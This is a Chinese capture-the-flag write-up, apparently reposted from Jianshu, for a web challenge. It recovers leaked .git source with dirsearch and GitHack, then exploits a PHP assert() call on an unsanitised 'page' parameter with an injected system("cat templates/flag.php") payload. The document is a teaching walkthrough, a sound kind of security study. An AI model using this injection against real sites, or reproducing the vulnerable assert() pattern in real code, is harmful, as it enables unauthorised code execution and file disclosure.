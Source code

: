 ##### 题目信息：

![](//upload-images.jianshu.io/upload_images/10148719-458da349c11c38ec.png?imageMogr2/auto-orient/strip|imageView2/2/w/692/format/webp)

![[Pasted image 20231220155618.png]]
  
**工具：**GitHack,dirsearch  
**知识点：**git漏洞、代码审计

打开题目场景，检查网站，发现这样一个页面

  

![](//upload-images.jianshu.io/upload_images/10148719-fa13e01ee3cb7eef.png?imageMogr2/auto-orient/strip|imageView2/2/w/493/format/webp)

![[Pasted image 20231220155640.png]]

  

访问.git目录，疑似存在git源码泄露

  

![](//upload-images.jianshu.io/upload_images/10148719-aebb660b0ea56299.png?imageMogr2/auto-orient/strip|imageView2/2/w/600/format/webp)

![[Pasted image 20231220155700.png]]

再用dirsearch扫描，发现git源码泄露：
![[Pasted image 20231220155735.png]]
  

![](//upload-images.jianshu.io/upload_images/10148719-726ff091784a3cd6.png?imageMogr2/auto-orient/strip|imageView2/2/w/737/format/webp)

  

使用 GitHack获取源码

  

![](//upload-images.jianshu.io/upload_images/10148719-981c9e67174c1c70.png?imageMogr2/auto-orient/strip|imageView2/2/w/733/format/webp)

![[Pasted image 20231220155755.png]]
  
得到源码  

![](//upload-images.jianshu.io/upload_images/10148719-af36984307dc5e63.png?imageMogr2/auto-orient/strip|imageView2/2/w/276/format/webp)

  

index.php中关键代码如下

```php
<?php

if (isset($_GET['page'])) {
    $page = $_GET['page'];
} else {
    $page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

如果这个字符串中没有找到相应的子字符串 就返回false
// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```

```dart
assert() 检查一个断言是否为 FALSE
strpos() 函数查找字符串在另一字符串中第一次出现的位置。如果没有找到则返回False
file_exists() 函数检查文件或目录是否存在。
assert()函数会将括号中的字符当成代码来执行，并返回true或false。
```

payload:`?page=abc') or system("cat templates/flag.php");//`

$file =templates/ abc') or system("cat templates/flag.php");// ".php"  
因为在strpos中只传入了abc，所以其肯定返回false，在利用or让其执行system函数，再用" // "将后面的语句注释掉  
查看网页源代码

  ![[Pasted image 20231220155815.png]]

![](//upload-images.jianshu.io/upload_images/10148719-9fec8909c4296d17.png?imageMogr2/auto-orient/strip|imageView2/2/w/768/format/webp)

作者：简言之_  
链接：https://www.jianshu.com/p/795f918d791b  
来源：简书  
著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。